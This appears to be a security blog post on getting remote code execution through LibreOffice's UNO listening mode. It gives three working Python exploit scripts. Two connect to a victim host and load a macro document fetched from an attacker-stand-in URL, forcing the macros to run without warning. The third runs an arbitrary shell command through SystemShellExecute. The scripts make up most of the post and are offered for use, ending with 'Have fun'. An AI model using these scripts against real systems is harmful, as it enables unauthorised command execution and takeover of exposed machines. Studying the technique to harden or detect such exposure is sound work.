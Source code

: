 ```yaml
---
layout: post
title: LibreOffice listening mode RCE
---
```


LibreOffice (as well as OpenOffice and other relatives) allows users to control the program remotely via [listening mode](https://wiki.openoffice.org/wiki/Documentation/DevGuide/ProUNO/Starting_OpenOffice.org_in_Listening_Mode). You can use this mode on any supported platform (Windows, Linux, Mac OS X).
Everything you need us start your office program with the following command:

`soffice -accept=socket,host=0,port=2002;urp;`

Office’s listening mode uses [Universal Network Objects (UNO)](https://www.openoffice.org/udk/common/man/uno.html) component model.
You can write your own scripts to use it with python3-uno package.
There are several ways to execute command on remote system using UNO in LibreOffice:
1. Open a document with macro in it with *MacroExecMode* set to [ALWAYS\_EXECUTE\_NO\_WARN](https://www.openoffice.org/api/docs/common/ref/com/sun/star/document/MacroExecMode.html#ALWAYS_EXECUTE_NO_WARN)
2. Open a document with macro and then call it with [getScript](https://www.openoffice.org/api/docs/common/ref/com/sun/star/script/provider/XScriptProvider.html#getScript) method
3. [SystemShellExecute](https://www.openoffice.org/api/docs/common/ref/com/sun/star/system/XSystemShellExecute.html#execute) method

Each method can be used with macro security set to **Very High**.

## ALWAYS\_EXECUTE\_NO\_WARN method
Create a document with macro in it. You can use MSF’s */exploit/multi/misc/openoffice_document_macro* or you can create it by yourself with *Shell* function of Basic language.
 
Assign your macro to document opening function via *Tools -> Customize -> Open Document*.

You don't need to upload your document with macro to host running LibreOffice, you can call it by URL instead.

```python
#!/usr/bin/env python3
import uno
docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"
from com.sun.star.beans import PropertyValue
local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)
inProps = []
prop = PropertyValue()
prop.Name = "MacroExecutionMode"
prop.Value = 4 # ALWAYS_EXECUTE_NO_WARN
inProps.append(prop)  
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple(inProps))
document.dispose()
```
 

## getScript method
 
Create a document with macro as in previous method, then directly call a macro inside the document with *getScript* and *invoke*.

```python
#!/usr/bin/env python3
import uno
docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"
from com.sun.star.beans import PropertyValue
local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)
inProps = [] 
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple(inProps))
model = desktop.getCurrentComponent()
sp = model.getScriptProvider()
sc = sp.getScript("vnd.sun.star.script:Standard.Module1.Main?language=Basic&location=document")
sc.invoke((),(),())
document.dispose()
```

## SystemShellExecute method

The best way to execute your command is to use *execute* method of *XSystemShellExecute* interface of API. You don't even need to create a document to use it.

```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue
local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
rc = context.ServiceManager.createInstanceWithContext("com.sun.star.system.SystemShellExecute", context)
rc.execute("/usr/bin/touch", "/tmp/PWNED", 1)
```

Have fun.



